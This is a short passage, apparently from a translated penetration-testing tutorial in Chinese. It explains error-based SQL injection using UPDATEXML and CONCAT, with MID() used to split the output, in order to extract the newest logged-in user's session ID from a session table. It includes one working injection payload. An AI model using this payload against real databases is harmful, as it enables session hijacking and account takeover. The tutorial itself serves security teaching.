 最后三个具有十六进制值`ABC`的字符未显示在屏幕上。为了解决这个问题，我们可以使用一个解决方法，即不使用单个查询从数据库中检索会话，而是使用`MID()`函数将会话分为两部分。

需要使用的第一个 SQL 会话负载`1`如下所示：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,15) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

如下所示：

![](img/c6cfd060-c8b2-466f-9284-9ebc8ca73aa8.png)

执行前述 SQL 负载`1`的结果如下所示：

![](img/14d81c3c-c996-49d4-ae29-f0d8d387f41f.png)
